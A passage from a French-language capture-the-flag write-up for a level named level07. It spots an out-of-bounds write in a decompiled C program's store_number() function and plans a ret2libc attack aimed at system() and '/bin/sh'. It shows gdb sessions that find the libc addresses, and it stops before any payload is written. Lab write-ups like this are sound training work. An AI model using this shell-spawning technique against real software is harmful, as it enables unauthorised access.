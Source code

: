 ```c
            ret = read_number(buffer);
        else if (strncmp(command, "quit", 4) == 0)
            break;

        if (ret)
            printf(" Failed to do %s command\n", command);
        else
            printf(" Completed %s command successfully\n", command);
        memset(command, 0, 20);
    }
    return 0;
}
```

En analysant la décompilation du code, je ne trouve pas de vulnérabilité particulière d'un point de vue des fonctions utilisées, cependant, la fonction `store_number()` présente une vulnérabilité à cette ligne :

```c
        buffer[index] = num;
```

Si l'on considère que le buffer passé déclaré ici :

```c
    unsigned int buffer[100];
```

N'est que de 100 bytes, mais que l'index utilisé plus haut proviens d'un `scanf()`, alors, on peut overflow sur ce buffer.

Je vais utiliser l'exploit `Ret2Libc` comme dans les précédents level afin d'accèder à l'adresse de `system()` (puis d'`exit()` bien que c'est optionel) et enfin celle de `/bin/sh`.

J'utilise `gdb` pour les trouver avec une nouvelle méthode trouvée [ici](https://corruptedprotocol.medium.com/elf-x86-stack-buffer-overflow-basic-6-rootme-app-system-introduction-to-ret2libc-83945accc435) pour obtenir l'adresse de `system()` et d'`exit()`:

```h
$ gdb ./level07 -q
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) info proc mappings
process 2862
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so <-- libc
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so <-- end
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
```